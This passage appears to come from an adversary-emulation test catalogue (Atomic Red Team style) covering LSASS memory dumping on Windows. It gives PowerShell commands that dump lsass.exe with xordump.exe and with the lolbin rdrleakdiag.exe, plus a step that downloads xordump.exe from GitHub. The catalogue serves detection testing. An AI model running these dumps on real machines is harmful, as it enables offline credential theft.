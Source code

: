 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
#{xordump_exe} -out #{output_file} -x 0x41
```

#### Cleanup Commands:
```powershell
Remove-Item #{output_file} -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must have xordump.exe
##### Check Prereq Commands:
```powershell
if (Test-Path '#{xordump_exe}') {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/audibleblink/xordump/releases/download/v0.0.1/xordump.exe" -OutFile #{xordump_exe}
```




<br/>
<br/>

## Atomic Test #13 - Dump LSASS.exe using lolbin rdrleakdiag.exe
The memory of lsass.exe is often dumped for offline credential theft attacks. 
This can be achieved with lolbin rdrleakdiag.exe. 

Upon successful execution, you should see the following files created, $env:TEMP\minidump_<PID>.dmp and  $env:TEMP\results_<PID>.hlk.

**Supported Platforms:** Windows


**auto_generated_guid:** 47a539d1-61b9-4364-bf49-a68bc2a95ef0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (Test-Path -Path "$env:SystemRoot\System32\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\System32\rdrleakdiag.exe"
  } elseif (Test-Path -Path "$env:SystemRoot\SysWOW64\rdrleakdiag.exe") {
      $binary_path = "$env:SystemRoot\SysWOW64\rdrleakdiag.exe"
  } else {
      $binary_path = "File not found"
      exit 1
  }
$lsass_pid = get-process lsass |select -expand id
if (-not (Test-Path -Path"$env:TEMP\t1003.001-13-rdrleakdiag")) {New-Item -ItemType Directory -Path $env:TEMP\t1003.001-13-rdrleakdiag -Force} 
write-host $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
& $binary_path /p $lsass_pid /o $env:TEMP\t1003.001-13-rdrleakdiag /fullmemdmp /wait 1
Write-Host "Minidump file, minidump_$lsass_pid.dmp can be found inside $env:TEMP\t1003.001-13-rdrleakdiag directory."
```